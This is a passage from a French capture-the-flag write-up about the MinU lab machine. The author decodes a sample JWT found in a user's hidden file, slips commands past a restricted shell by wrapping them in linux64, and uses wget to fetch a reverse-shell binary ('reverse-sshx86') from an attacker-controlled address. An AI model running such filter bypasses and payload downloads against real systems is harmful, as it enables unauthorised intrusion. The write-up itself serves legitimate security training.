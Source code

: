 ## Quoicouken

Revenons un peu sur l'utilisateur `bob`.

Je peux lister son dossier personnel et on n'y trouve qu'un fichier caché `._pw_` dont voici le contenu :

`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.pn55j1CFpcLjvReaqyJr0BPEMYUsBdoDxEPo6Ft9cwg`

Il s'agit clairement d'un token JWT bien que je n'en aie pas croisé beaucoup sur des CTFs.

Je peux le décoder via le site https://token.dev/ qui me donne le header :

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

Ainsi que le payload :

```json
{
  "sub": "1234567890",
  "name": "John Doe",
  "iat": 1516239022
}
```

Faute de mieux pour le moment j'ai décidé de pwner le serveur pour obtenir un shell digne de ce nom.

En utilisant une technique que j'ai employée sur le [CTF Bandit de OverTheWire]({% link _posts/2023-04-28-Solution-du-Wargame-Bandit-de-OverTheWire.md %}#level-32) je peux faire passer certaines commandes :

```bash
linux64 uname -a
```

Je ne saurais pas expliquer en détails ce que font les commandes `linux32` et `linux64` car elles n'ont pas de page de manuel, mais il semble qu'elles permettent de lancer un exécutable en lui donnant ou retirant certaines options.

On a affaire à un système 32 bits.

```
Linux MinU 4.13.0-39-generic #44-Ubuntu SMP Thu Apr 5 14:21:12 UTC 2018 i686 i686 i686 GNU/Linux
```

Finalement je parviens à faire fonctionner `wget` :

```bash
linux64 wget http://192.168.56.1/reverse-sshx86
```

Seulement, quand je regarde la taille du fichier téléchargé (via `stat`, car `ls` appelé avec des options est bloqué) ... il est vide.
